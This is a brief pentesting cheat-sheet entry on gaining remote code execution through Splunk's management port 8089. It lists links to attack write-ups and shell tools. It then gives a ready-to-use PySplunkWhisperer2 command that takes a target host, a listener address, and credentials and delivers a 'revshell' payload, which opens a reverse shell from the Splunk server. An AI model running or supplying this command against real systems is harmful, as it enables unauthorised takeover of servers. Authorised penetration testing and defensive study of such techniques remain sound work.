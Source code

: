 # 8089 - Splunk

## RCE

{% code overflow="wrap" %}
```bash
https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd
https://www.hackingarticles.in/penetration-testing-on-splunk/
https://github.com/TBGSecurity/splunk_shells/
https://github.com/cnotin/SplunkWhisperer2

# Against Linux target (remotely)
python PySplunkWhisperer2_remote.py --host 192.168.0.0 --lhost 192.168.0.1 --username user --password pass --payload "revshell"
```
{% endcode %}
